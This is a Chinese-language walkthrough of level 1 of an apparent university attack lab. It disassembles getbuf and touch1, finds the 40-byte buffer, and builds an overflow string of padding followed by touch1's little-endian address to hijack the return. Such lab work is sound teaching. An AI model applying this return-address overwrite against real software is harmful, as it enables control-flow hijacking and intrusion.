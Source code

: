 ```C++
void touch1() {
    vlevel = 1;
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

实验提供了一些建议：

- 本关所需要的所有信息都可以在 ctarget 的汇编代码中找到
- 具体要做的是把 touch1 的开始地址放到 ret 指令的返回地址中
- 注意字节的顺序
- 可以用 gdb 在 getbuf 的最后几条指令设置断点，来看程序有没有完成所需的功能
- 具体 buf 在栈帧中的位置是由 BUFFER_SIZE 决定的，需要检查汇编代码来查看具体位置

从上述建议中我们知道，先将ctarget反汇编再查看具体代码就能解决完成这个攻击，具体步骤如下：

1)  查看getbuf的反汇编代码：

```
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
```

分析getbuf的C代码和汇编代码可以看出BUFFER_SIZE是rsp移动的位置-0x28，也就是40位。

2)  查看touch1的反汇编代码：

```
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
```

touch1的入口地址是0x4017c0。

3)  设置导致溢出的字符串：

知道了BUFFER_SIZE的大小和touch1的入口地址，我们可以制造缓冲区溢出攻击，也就是输入一个大小大于40位的字符串，将buf填满的同时，把touch1函数的入口地址覆盖getbuf原有的返回地址，这样getbuf返回时就会执行touch1函数。于是设置字符串如下：

```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
c0 17 40 00 
```
